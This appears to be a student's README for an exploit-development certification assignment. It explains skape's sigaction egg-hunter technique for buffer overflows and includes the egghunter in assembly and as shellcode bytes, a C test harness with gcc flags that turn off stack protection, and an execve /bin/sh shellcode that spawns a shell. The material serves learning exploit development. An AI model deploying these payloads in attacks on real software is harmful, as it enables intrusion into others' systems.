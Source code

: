 # Assignment 3

## What to do
- Study the Egg Hunter shellcode
- Create a working demo of egghunter
- Should configurable for different payloads

###### This study is based on skape's paper _Safely Searching Process Virtual Address Space_ published back in 2004.

The concept of the egg-hunting technique is to search a process' _Virtual Address Space_ for a specific occurrence of the provided egg.

As skape describes, think about searching for a needle in a haystack. In this case, process _Virtual Address Space_ is the haystack and egg is the needle.

This exploitation technique is useful when a very small amount of data to use is available during exploiting a buffer overflow vulnerability.

The actual egg-hunting shellcode is placed in the small available memory location. The attacker then can place a larger payload somewhere else in the process' address space and the actual egg-hunting shellcode will look in the memory for this larger payload.

The mechanism that the studied method uses, involves abusing the system call interface provided by the operating system in order to validate process _Virtual Memory Areas_ in kernel mode.

The implementation being studied here considers *sigaction* sys call. Its real purpose is to allow for defining custom actions to be taken on the receipt of a given signal. In this case, however, it will validate user-mode addresses.

The sigaction function is prototyped as follows:

```c
int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact);
```

At this point, let's have a closer look at the registers during egghunter's execution:

- EAX will hold the sigaction sys call number, `0x43` and later will hold the egg

- EBX will hold signum, there is no need to initialize this register

- ECX will hold act structure, the memory address we want to validate. At first, access to a memory page is validated. If the page is in the process' virtual address space ECX iterates inside this page and checks the existence of the egg. Otherwise, ECX moves to the next memory page.

The page's size can me easily identified:

```zsh
$ getconf PAGE_SIZE
4096
```

- EDX will hold oldact structure and does not have to be initialized to a valid pointer because act structure is checked to see if it is valid before the oldcat structure is.

- EDI will hold the memory address that ECX points to

- ESI there is no need to use this register

The actual egg-hunter Assembly code follows:

```assembly
;
; sigaction egghunter
;

global _start

section .text
_start:

        or cx, 0xfff            ; page allignment
        inc ecx                 ; first address in the memory page
        push byte +0x43         ; sigtran sys call number
        pop eax                 ; sys call number into eax
        int 0x80                ; make sys call
        cmp al, 0xf2            ; check if memory is accessible -EFAULT
        jz $-0xd                ; if memory is not accessible look into another page
        mov eax,0x50905090      ; egg CHANGE ME
        mov edi, ecx            ; load edi with the address that ecx point to
        scasd                   ; compare eax to edi
        jnz $-0x12              ; if not equal inc ecx
        scasd                   ; string compare
        jnz $-0x15              ; if not equal inc ecx
        jmp edi                 ; jmp to shellcode

```

Further notes on the egghunter code

As soon as sigaction sys call is being executed a value is returned in EAX. If the process has access to the specified memory zero is returned.

Otherwise, the error code EFAULT is returned. Since it is an error code returned by a system call, the actual value is negative.

The EFAULT's value is stored in a header file and can be retrieved using the following command:

```zsh
$ cat /usr/include/asm-generic/errno-base.h | grep -w 'EFAULT'
#define	EFAULT		14	/* Bad address */
```

The value (-14) converted to 2's complement binary is 1111 0010 and is stored in EAX. The lower byte stored in EAX will therefore be `0xf2`.

A really efficient method is used to compare the bytes located in memory address pointed by ECX.

The address stored in ECX is moved to EAX. After this move, SCASD instruction follows. This instruction makes a string compare between EAX and EDI.

On a match - memory address pointed by EDI has the first occurrence of the egg - EDI will be increased by one, pointing to the next address that needs to be compared with EAX.

On a second match - EDI has the second occurrence of the egg - the execution continues to the actual shellcode (execve /bin/sh).

The Assembly code can be found in _Assignment #3_ repo named as _egghunter.asm_

The following demo code is the proof of concept:

```c
#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>
#include<string.h>

int main(int argc, char **argv)
{
	uint8_t egghunter[30] =
		"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd"	// skape's egg-hunting demo shellcode
		"\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50"	// \x90\x50\x90\x50 is the demo egg
		"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";	//

	uint32_t j=0, i=0, count =0, count2=0;
	uint8_t *shellcode;

	// usage
	if ( argc != 3 )
	{
		printf("shellcode.c <shellcode> <egg>\n");
		exit(0);
	}

	// calculate the length of the given shellcode
	while ( argv[1][i++] != '\0' )
		count++;

	count = count/3;	// # of bytes

	// given the shellcode, change each char from xXX to XX\0
	// e.g. \x55 will be 55\0
	// each pair must be null terminated for later use in strtol
	i=0;
	do
	{
		argv[1][i] = argv[1][i+1];
		argv[1][i+1] = argv[1][i+2];
		argv[1][i+2] = '\0';
		count2++;
		i=i+3;
	} while ( count-- != 1 );

	// allocate memory for the shellcode
	shellcode = (uint8_t *)malloc(sizeof(uint8_t)*count2+8);

	// place the egg into the shellcode
	for (i=0; i<4; i++)
	{
		shellcode[i] = argv[2][3-i];
		shellcode[i+4] = argv[2][3-i];
	}

	// transform each pair of characters into a number
	// e.g. \x55 will be saved as chars x 5 5
	// strtol will transform 5 5 into a number
	j=0;
	for (i=0; i<count2; i++)
	{
		shellcode[i+8] = (uint8_t) strtol(&argv[1][j], NULL, 16);
		j=j+3;
	}

	// place the new egg in the egghunter
	for (i=0; i<4; i++)
		egghunter[16+i] = argv[2][3-i];


	printf("Shellcode length: %d\n", strlen(egghunter));

	int (*ret)() = (int(*)())egghunter;

	ret();

	return 0;

}

```

The code above can be found in _Assignement #3_ repo and is named as _shellcode.c_

It can be compiled issuing the command `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`

The produced _elf_ will take two arguments: the shellcode to be executed (in this example execve /bin/sh) and the four-character egg (in this example is the word loot)

```c
$ ./shellcode \x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80 loot
```

The execution of the elf shellcode provided the two arguments, will spawn an sh shell.

![img](https://github.com/lampnout/SLAE/blob/master/Assignment%203/assign%23%23%233.PNG)

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
